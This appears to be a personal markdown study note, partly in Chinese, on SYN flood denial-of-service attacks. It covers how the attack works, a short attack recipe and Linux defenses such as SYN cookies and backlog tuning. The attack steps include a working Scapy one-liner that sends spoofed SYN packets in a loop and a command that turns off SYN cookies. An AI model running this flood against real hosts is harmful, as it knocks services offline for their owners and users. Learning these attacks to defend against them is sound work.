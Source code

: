 # SYN Flood Attack
A SYN flood attack is a form of denial-of-service attack in which an attacker rapidly initiates a connection to a server without finalizing the connection. 

The malicious client can either simply not send the expected `ACK`, or by spoofing the source IP address in the `SYN`, cause the server to send the `SYN-ACK` to a falsified IP address – which will not send an `ACK` because it "knows" that it never sent a `SYN`.[^wiki]

## Attack
1. Nmap 扫描可连接端口
2. `echo 0 > /proc/sys/net/ipv4/tcp_syncookies`
3. Scapy
   ```python
   send(IP(src=RandIP(), dst='10.0.0.8') / TCP(sport=RandShort(), dport=22, flags='S'), loop=1)
   ```

[ACK-PSH-RST-SYN Flood | Knowledge Base | MazeBolt](https://kb.mazebolt.com/knowledgebase/ack-psh-rst-syn-flood/)

## Defenses
 [^linoxide]
- Filtering
- Increasing backlog
  ```sh
  cat /proc/sys/net/ipv4/tcp_max_syn_backlog
  ```
- Reducing SYN-RECEIVED timer
  ```sh
  cat /proc/sys/net/ipv4/tcp_synack_retries
  ```
- Recycling the oldest [half-open TCP](https://en.wikipedia.org/wiki/TCP_half-open "TCP half-open")
- SYN cache
- [SYN cookies](https://en.wikipedia.org/wiki/SYN_cookies)
  
  Instead of storing additional connections, a SYN queue entry is encoded into the **sequence number** sent in the `SYN-ACK` response. If the server then receives a subsequent `ACK` response from the client with the incremented sequence number, the server is able to reconstruct the SYN queue entry and proceed as usual with the connection.

  SYN cookies are now deployed in most major operating systems.
  
  ```sh
  cat /proc/sys/net/ipv4/tcp_syncookies
  ```
- Hybrid approaches
- Firewalls and proxies

[云彩网络](https://www.7yc.com/):
- 检测为攻击时会返回伪造的 SYN ACK，而不是忽略或 RST
- 当客户端发送 SYN ECN CWR 时，伪造的 SYN ACK 会包含 ECN CWR，而真实的 Windows SYN ACK 只会包含 ECN

  伪造的 SYN ACK window 为 8760，而真实的为 65535
- 伪造的 SYN ACK 不含 options，而真实的 Options: (12 bytes), Maximum segment size, No-Operation (NOP), Window scale, No-Operation (NOP), No-Operation (NOP), SACK permitted
- 伪造的 SYN ACK Conversation completeness 为 47，而真实的为 31

[Windows 10 drops incoming TCP SYN packet for no reason - Microsoft Community](https://answers.microsoft.com/en-us/windows/forum/all/windows-10-drops-incoming-tcp-syn-packet-for-no/2245ca28-b82f-415a-8d4f-56afbf38b1a5?page=1)


[^wiki]: [SYN flood - Wikipedia](https://en.wikipedia.org/wiki/SYN_flood)
[^linoxide]: [What is SYN Flood Attack? Detection & Prevention in Linux](https://linoxide.com/snapshot-syn-flood-attack/)